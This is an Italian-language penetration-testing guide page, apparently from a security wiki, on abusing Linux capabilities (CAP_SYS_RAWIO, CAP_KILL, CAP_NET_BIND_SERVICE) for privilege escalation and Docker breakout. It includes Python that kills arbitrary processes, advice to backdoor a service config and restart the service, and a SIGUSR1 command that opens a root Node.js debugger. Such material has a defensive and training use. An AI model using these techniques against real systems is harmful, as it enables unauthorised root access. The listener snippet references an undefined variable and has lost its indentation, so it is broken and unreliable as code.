 [**CAP_SYS_RAWIO**](https://man7.org/linux/man-pages/man7/capabilities.7.html) fornisce una serie di operazioni sensibili tra cui l'accesso a `/dev/mem`, `/dev/kmem` o `/proc/kcore`, modificare `mmap_min_addr`, accedere alle chiamate di sistema `ioperm(2)` e `iopl(2)`, e vari comandi del disco. L'`FIBMAP ioctl(2)` è anche abilitato tramite questa capacità, che ha causato problemi in [passato](http://lkml.iu.edu/hypermail/linux/kernel/9907.0/0132.html). Secondo la pagina man, questo consente anche al titolare di `eseguire una serie di operazioni specifiche per dispositivo su altri dispositivi`.

Questo può essere utile per **l'escalation dei privilegi** e **il breakout di Docker.**

## CAP_KILL

**Questo significa che è possibile uccidere qualsiasi processo.**

**Esempio con binario**

Supponiamo che il **`python`** binario abbia questa capacità. Se potessi **anche modificare alcune configurazioni di servizio o socket** (o qualsiasi file di configurazione relativo a un servizio), potresti inserire una backdoor, e poi uccidere il processo relativo a quel servizio e aspettare che il nuovo file di configurazione venga eseguito con la tua backdoor.
```python
#Use this python code to kill arbitrary processes
import os
import signal
pgid = os.getpgid(341)
os.killpg(pgid, signal.SIGKILL)
```
**Privesc con kill**

Se hai capacità di kill e c'è un **programma node in esecuzione come root** (o come un altro utente) potresti probabilmente **inviargli** il **segnale SIGUSR1** e farlo **aprire il debugger node** a cui puoi connetterti.
```bash
kill -s SIGUSR1 <nodejs-ps>
# After an URL to access the debugger will appear. e.g. ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
```
{{#ref}}
electron-cef-chromium-debugger-abuse.md
{{#endref}}


## CAP_NET_BIND_SERVICE

**Questo significa che è possibile ascoltare su qualsiasi porta (anche su quelle privilegiate).** Non è possibile elevare i privilegi direttamente con questa capacità.

**Esempio con binario**

Se **`python`** ha questa capacità, sarà in grado di ascoltare su qualsiasi porta e persino connettersi da essa a qualsiasi altra porta (alcuni servizi richiedono connessioni da porte privilegiate specifiche)

{{#tabs}}
{{#tab name="Listen"}}
```python
import socket
s=socket.socket()
s.bind(('0.0.0.0', 80))
s.listen(1)
conn, addr = s.accept()
while True:
output = connection.recv(1024).strip();
print(output)
```
{{#endtab}}
